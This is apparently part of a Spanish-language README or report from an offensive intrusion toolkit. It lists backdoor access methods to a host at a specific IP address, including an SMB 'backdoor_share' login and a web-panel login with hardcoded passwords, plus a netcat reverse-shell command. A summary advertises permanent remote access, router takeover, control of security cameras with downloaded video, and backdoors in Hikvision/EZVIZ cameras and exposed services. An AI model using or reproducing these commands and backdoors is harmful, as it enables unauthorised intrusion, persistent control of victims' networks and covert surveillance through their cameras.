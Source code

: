 ### **6. SMB (Archivos Windows)** 💾
```bash
# Linux
smbclient //212.95.62.135/backdoor_share -U svc_smb%SMB_P@ssw0rd_2024!

# Windows
net use \\212.95.62.135\backdoor_share /user:svc_smb SMB_P@ssw0rd_2024!
```

### **7. VPN (Conexión Segura)** 🔒
```bash
openvpn --config client.ovpn
```

### **8. Panel Web** 🌐
```
http://admin:Web_P@ssw0rd_2024!@212.95.62.135:8080/admin
```

### **9. HTTP/HTTPS Directo** 🌍
```
http://212.95.62.135:80
https://212.95.62.135:443
```

### **10. Reverse Shell** 🔄
```bash
nc -e /bin/bash 212.95.62.135 4444
```

---

## 📋 RESUMEN DE LO QUE OBTIENES

### **✅ INFORMACIÓN COMPLETA:**
- **Lista de computadoras** en la red
- **Credenciales válidas** para acceder a sistemas
- **Acceso completo** al router de la red
- **Control de cámaras** de seguridad con video descargado
- **Backdoors en cámaras** Hikvision/EZVIZ
- **Servicios vulnerables** (MongoDB, Redis, Docker, etc.)
- **Múltiples formas** de acceder remotamente

### **✅ ACCESO PERMANENTE EXTERNO:**
- **SSH** para terminal remoto (puerto 2222)
- **RDP** para escritorio remoto Windows (puerto 3389)
- **FTP** para transferencia de archivos (puerto 21)
- **Telnet** para terminal remoto (puerto 23)
- **VNC** para escritorio remoto Linux (puerto 5900)
- **SMB** para archivos Windows (puerto 445)
- **VPN** para conexión segura (puerto 1194)
- **Panel web** para administración (puerto 8080)
- **HTTP/HTTPS** directo (puertos 80/443)
- **Backdoors** para acceso oculto
- **Servicios vulnerables** con backdoors específicos
- **Cámaras con backdoors** y acceso remoto
